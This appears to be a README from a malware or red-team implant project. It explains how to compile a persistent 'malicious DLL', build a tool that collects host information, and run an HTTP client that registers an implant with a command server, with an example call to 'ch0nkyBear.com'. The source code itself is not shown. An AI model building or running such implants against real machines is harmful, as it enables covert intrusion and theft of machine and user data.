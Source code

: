 # README

## To Compile the Malicious DLL

* Go to: reflectivedll> realDLL folder
* Run make to compile the DLL
* In the Command line, run .\testmDll.exe maliciousdll.dll

* The Malicious DLL currently checks for the Chonky.txt file and is Persistent.
* It does NOT currently include the communicationfuncs.cpp and .h files because it would cause errors
* TODO: get the communication functions working with the server, then add the files to the make file as a requirement for the dll

## To get Situational Awareness info

* Go to: reflectivedll> TestingFeatures> getInfo folder
* Run make to build the infoTest executable
* In the command line, run .\infoTest.exe 

* This executable will print out the data of the current machine
* It is currently not a feature of the dll

## To make an HTTP Request to the Server

* Go to: reflectivedll> TestingFeatures > http folder
* Run make to build the http executable
* In the command line, run .\http.exe fqdn port uri useTLS payload payloadLength
* The payload should be a hex string that (before converted to hex), is in the format "guid=implantTest&username=TestUser&=computername=TestComputer\r\n"
* EX: .\http.exe ch0nkyBear.com 443 /register 1 "23478y9hfj874" 13

* Currently: Issues handling payloads on the server side
* testInfo.cpp is a file that includes example hex encoded payloads to try out
